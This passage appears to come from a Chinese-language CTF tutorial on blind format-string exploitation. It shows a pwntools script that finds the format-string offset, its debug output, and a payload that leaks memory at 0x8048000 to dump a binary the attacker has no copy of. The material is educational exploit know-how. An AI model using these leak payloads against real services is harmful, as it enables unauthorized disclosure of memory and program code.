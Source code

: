 从上面的测试代码中可以证明上述所讲的结论, 我们成功leak出相应内存的数据(直到`\x00`为止)

上面爆破出来的11我们称为offset，pwntools有自动化代码可以算出offset:
```py
# fmt_test.py
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.log_level = 'debug'

def exec_fmt(payload):
	p = process("a.out")
	p.sendline(payload)
	info = p.recv()
	p.close()
	return info

autofmt = FmtStr(exec_fmt)
print autofmt.offset
```

我们可以看看其中一条DEBUG数据和结果:
```
$ python fmt_test.py

...

[+] Starting local process './a.out' argv=['a.out'] : Done
[DEBUG] Sent 0x22 bytes:
    'aaaabaaacaaadaaaeaaaSTART%11$pEND\n'
[DEBUG] Received 0x27 bytes:
    'aaaabaaacaaadaaaeaaaSTART0x61616161END\n'
[*] Stopped program './a.out'
[*] Found format string offset: 11
11
```

测试完了，现在又恢复到没bin状态，有了前面的基础，要dump出整个bin就很容易了

在Linux下，不开PIE保护时，32位的ELF的默认首地址为`0x8048000`，如果开启了PIE保护，则需要根据ELF的魔术头`7f 45 4c 46`进行爆破，内存地址一页一页的往前翻直到翻到ELF的魔术头为止

但是这时候还存在一个问题:
比如我的Payload为:
```
p = remote("127.0.0.1",10001)
p.send(p32(0x8048000)+"%11$s")
print p.recv()
```

得到的结果是
```
$ python fmt_test.py
...
Traceback (most recent call last):
  ...
EOFError
...
```
